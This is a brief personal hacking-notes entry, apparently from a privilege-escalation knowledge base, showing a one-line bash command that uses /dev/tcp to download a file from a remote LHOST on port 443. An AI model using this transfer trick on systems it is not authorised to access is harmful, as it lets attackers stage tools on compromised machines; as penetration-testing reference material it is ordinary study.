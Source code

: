 # linux enumeration quick commands transfer / download files with just bash receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```

# References
- [20221003150907](/zet/20221003150907/) linux enumeration quick commands transfer / download files with just bash
- ~/kb/hacking/priv-esc/enumeration-quick-commands.md

Tags:
    #assorted

